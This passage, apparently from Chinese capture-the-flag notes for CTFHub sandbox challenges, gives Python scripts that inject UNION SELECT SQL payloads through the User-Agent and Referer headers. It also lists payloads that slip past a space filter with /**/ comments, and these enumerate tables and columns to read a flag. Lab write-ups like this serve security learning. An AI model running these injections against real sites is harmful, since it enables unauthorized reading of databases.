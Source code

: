 #### UA注入

```python
import requests

url = "http://challenge-c7b95089c5357e9c.sandbox.ctfhub.com:10080/"
# headers = {'User-Agent':'-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -'}
# headers = {'User-Agent':"-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='eekmsqwypr'-- "}
headers = {'User-Agent':"-1 union select 1,(select tvzmnnngkj from eekmsqwypr)-- -"}
result = requests.get(url, headers=headers).text
print(result)
```

#### Refer注入

```
import requests

url = "http://challenge-101ab3be57f06d83.sandbox.ctfhub.com:10080/"
# headers = {'referer':'-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -'}
# headers = {'referer':"-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='gwapapdfpi'-- "}
headers = {'referer':"-1 union select 1,(select yjxljrovns from gwapapdfpi)-- -"}
result = requests.get(url, headers=headers).text
print(result)
```

#### 过滤空格

```
-1/**/union/**/select/**/1,2#
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()#
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='geasbiejso'#
-1/**/union/**/select/**/1,(select/**/dbjzzvxhkb/**/from/**/geasbiejso)#
```



# 2020福建培训

## 杂项

### 压缩包

###### 1.compress-word

![image-20200716164331294](/image-20200716164331294.png)
